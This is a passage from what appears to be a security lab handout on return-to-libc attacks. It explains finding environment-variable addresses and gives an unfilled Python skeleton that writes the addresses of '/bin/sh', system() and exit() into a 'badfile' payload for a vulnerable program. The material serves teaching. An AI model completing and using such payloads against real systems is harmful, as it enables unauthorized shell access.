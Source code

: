 Compile the code above into a binary called \texttt{prtenv}.  
If the address randomization is turned off, you will find out that the same 
address is printed out. When you run the vulnerable program \texttt{retlib}
inside the same terminal, the address of the environment
variable will be the same. You can verify that by putting 
the code above inside \texttt{retlib.c}. However, the  
the length the program name do make a difference. That's why
we choose 6 characters for \texttt{prtenv}, because of 
the length of \texttt{retlib}.  



\subsection{Task 3: Launching the Attack}

We are ready to create the content of \texttt{badfile}. Since 
the content involves some binary data (e.g., the address of the 
\texttt{libc} functions), we can use Python to do the construction.  
We provide a skeleton of the code in the following, with the essential 
parts left for you to fill out.


\begin{lstlisting}
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 0
sh_addr = 0x00000000       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 0
system_addr = 0x00000000   # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 0
exit_addr = 0x00000000     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
\end{lstlisting}
 
You need to figure out the three addresses and the values for 
\texttt{X}, \texttt{Y}, and \texttt{Z}. 
If your values are incorrect,
your attack might not work. In your report, you need to
describe how you decide the values for {\tt X}, {\tt Y} and {\tt
Z}. Either show us your reasoning or, if you use a trial-and-error approach,
show your trials.



